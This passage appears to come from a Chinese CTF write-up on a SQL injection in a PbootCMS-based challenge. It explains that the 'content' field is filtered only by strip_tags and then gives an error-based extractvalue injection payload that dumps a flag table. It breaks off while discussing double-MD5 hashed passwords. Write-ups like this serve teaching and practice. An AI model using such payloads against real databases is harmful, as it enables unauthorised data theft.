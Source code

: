 ![Content_hole_415](../img/Content_hole_415.png)

其中：

```php
$description = mb_substr(strip_tags($_POST['content']), 0, 150);
```

仅对传入的  `content`  参数使用了 `strip_tags` 和 `mb_substr` 过滤，因此 `$content` 存在  `SQL`  注入。

**报错注入** 可以拿到数据库中的flag：

> 如果使用 select (extractvalue(1,(database()))); 在1中查询不到database()的结果，但是因为没有语法错误，所以不会报错。
>
> 用 `concat` 函数拼接一个错误的 Xpath 让数据库报错得到包含查询值的字符串。

 **因此设计 POC 如下**：

```shell
testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from pbootcms.ay_aFlag)))) or ' 
```

因为漏洞设计在后台，所以要过登录。对数据库（包含用户名密码）的设计如下， `password`  是由原始密码经过 **两次 `MD5` 加密** 得到的：
